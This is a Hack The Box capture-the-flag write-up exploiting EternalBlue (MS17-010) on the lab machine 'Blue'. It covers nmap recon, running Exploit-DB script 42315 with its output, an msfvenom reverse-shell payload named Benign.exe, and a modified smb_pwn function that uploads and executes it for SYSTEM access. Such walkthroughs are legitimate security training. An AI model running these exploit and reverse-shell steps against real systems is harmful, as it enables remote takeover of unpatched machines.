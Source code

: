 ```yaml
---
title: "Blue Walkthrough:Exploiting CVE-2017-0144"
date: 2024-10-08 09:00:00 +0530
categories: [Capture the Flags, Windows]
tags: [HTB]   
description: "Walkthrough of HTB's Blue machine without using Metasploit"
---
```


# Blue

*Blue, while possibly the simplest machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.*


### Recon

Started the recon with an Nmap scan:

```bash
sudo nmap -T4 -sS -n -Pn --disable-arp-ping --stats-every=5s -F 10.10.10.40
```

- **-T4**: Sets the timing template for faster scanning.
- **-sS**: Performs a TCP SYN scan.
- **-n**: Disables DNS resolution.
- **-Pn**: Skips host discovery (pinging).
- **-F**: Scans the top TCP ports.

The initial scan reveals several open ports, including:

- 135/tcp open  msrpc
- 139/tcp open  netbios-ssn
- 445/tcp open  microsoft-ds (Samba)
- Multiple high-numbered ports (49152-49157) open for Microsoft services.

Next, I performed a more detailed scan to identify the operating system and versions of the services:

```bash
sudo nmap -T4 -A -Pn -n --disable-arp-ping 10.10.10.40 --source-port 53 -p 135,139,445,49152,49153,49154,49155,49156,49157

sudo nmap -v --script vuln,exploit -p 135,139,445 10.10.10.40
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

This identified the target as **Windows 7 Professional 7601 Service Pack 1**, making it susceptible to the EternalBlue exploit (MS17-010).

### Exploitation:

MS17-010 is a critical vulnerability in SMBv1 (CVE-2017-0144). Exploiting it allows remote code execution with SYSTEM-level privileges.

#### Preparing the Exploit:

First, I copied the exploit script from the `exploitdb` directory to my working directory:

```bash
(kali㉿kali)-[~/Red_Team/HTB/Blue]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/42315.py ./4315.py
```

The exploit is written in Python 2.7, and when I tried to run it, syntax issues arose due to the differences between Python 2.7 and Python 3. To resolve this, I created a Python 2.7 virtual environment:

1. **Download pip** for Python 2.7:

    ```bash
    wget -c https://bootstrap.pypa.io/pip/2.7/get-pip.py
    python2.7 get-pip.py
    ```

2. **Verify the pip version** and set up the virtual environment:

    ```bash
    > python2 -m pip --version
    pip 20.3.4 from /home/kali/.local/lib/python2.7/site-packages/pip (python 2.7)
    > python2 -m pip install -U pip setuptools
    > python2 -m pip install virtualenv   
    > python2.7 -m virtualenv myenv
    ```

3. **Activate the virtual environment** and install the required dependencies, like `impacket`, which is essential for running the exploit smoothly.

4. **Downloading Dependencies** - Found a note of this missing library in the exploit,

    ```bash
    EDB Note: mysmb.py can be found here ~ https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py

    wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
    ```

#### Running the Exploit:

With the environment set up, I executed the modified script using Python 2.7:

```bash
──(myenv)─(kali㉿kali)-[~]
└─$ python Red_Team/HTB/Blue/4315.py 10.10.10.40 netlogon
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80041f95e0
SESSION: 0xfffff8a009713aa0
FLINK: 0xfffff8a00a10a088
InParam: 0xfffff8a00a10415c
MID: 0x2103
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Done
```

The output indicated a successful exploitation process, leading to SYSTEM-level access on the target.

### Knowledge Share:

SMB servers use *named pipes* to communicate with various services for authentication:

- **Domain-joined SMB Servers** use the *Netlogon* service to communicate with the domain controller for authentication.
- **Standalone SMB Servers** interact with the local *SAM (Security Account Manager)* database via the `\samr` pipe to verify credentials.
- The **Local Security Authority (LSA)** manages security policies and access controls through its communication with the SMB server.

For testing purposes, running the command with random "username" and "password" can help in exploring these interactions during an exploit attempt.

### Custom Exploit:

For a deeper understanding, I modified the EternalBlue exploit script to upload a custom reverse shell and execute it:

1. **Creating the executable payload** using `msfvenom`:

    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=8080 -f exe > Benign.exe
    ```

2. **Modifying the script** to transfer and execute the payload:

    ```python
    def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        print('Creating file C:\\Benign.exe on the target')
        smb_send_file(smbConn, '/home/kali/Red_Team/HTB/Blue/Benign.exe', 'C', '/Benign.exe')
        service_exec(conn, r'cmd /c C:\\Benign.exe')
    ```

3. **Running the script** gave me a reverse shell back to my machine, maintaining SYSTEM access.

### Post-Exploitation:

After successful exploitation, I had SYSTEM-level access:

```bash
C:\Windows\system32> whoami
nt authority\system
```

This means complete control over the machine, including access to any files. Retrieving the flag:

```bash
C:\Users\Administrator\Desktop> type root.txt
734ac76b26b651a6658354572badeb63
```

### Conclusion:

The Blue machine on Hack The Box is a great example of how a seemingly outdated vulnerability like EternalBlue can still pose a significant risk if left unpatched. Proper patch management and disabling legacy protocols like SMBv1 are critical for maintaining secure networks.

## Disclaimer:

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*

## References
- [Exploit-DB: MS17-010 EternalBlue Exploit](https://www.exploit-db.com/exploits/42315)
---

